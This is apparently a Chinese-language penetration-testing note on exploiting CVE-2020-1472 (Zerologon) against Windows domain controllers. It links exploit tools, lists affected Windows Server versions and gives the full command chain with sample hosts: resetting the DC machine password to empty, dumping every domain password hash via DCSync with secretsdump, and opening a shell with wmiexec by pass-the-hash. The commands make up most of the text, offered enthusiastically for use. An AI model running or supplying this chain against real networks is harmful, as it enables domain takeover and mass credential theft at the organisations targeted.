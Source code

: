 #### CVE-2020-1472 域内提权

直接指向域控，so cool！

**工具**

重置域控用户名为空：https://github.com/dirkjanm/CVE-2020-1472

执行各种命令工具(sudo pip3 install .)：https://github.com/SecureAuthCorp/impacket 

恢复域控密码：https://github.com/risksense/zerologon

**影响范围**

> Windows Server 2008 R2 for x64-based Systems Service Pack 1
> Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
> Windows Server 2012
> Windows Server 2012 (Server Core installation)
> Windows Server 2012 R2
> Windows Server 2012 R2 (Server Core installation)
> Windows Server 2016
> Windows Server 2016 (Server Core installation)
> Windows Server 2019
> Windows Server 2019 (Server Core installation)
> Windows Server, version 1903 (Server Core installation)
> Windows Server, version 1909 (Server Core installation)
> Windows Server, version 2004 (Server Core installation)

将域控密码设置为空

```
python3 cve-2020-1472-exploit.py <域控机器名> <域控IP>

python3 cve-2020-1472-exploit.py WIN-03OO218S5B8 192.168.0.4
```

![image-20210131113629119](C:/Users/Rainbow/AppData/Roaming/Typora/typora-user-images/image-20210131113629119.png)

通过 `Dcsync` 查看密码hash

```
secretsdump.py <域>/<域控机器名>\$@<域控IP> -just-dc -no-pass

secretsdump.py king.com/WIN-03OO218S5B8\$@192.168.0.4 -just-dc -no-pass
```

![image-20210131113844158](C:/Users/Rainbow/AppData/Roaming/Typora/typora-user-images/image-20210131113844158.png)

通过`wmiexec.py`获取shell

```
wmiexec.py king.com/administrator@<域控IP> -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 king.com/administrator@192.168.0.4

或者
wmiexec.py king.com/administrator@<域控IP> -hashes aad3b435b51404eeaad3b435b51404ee:0d546438b1f4c396753b4fc8c8565d5b king.com/administrator@192.168.0.4
```
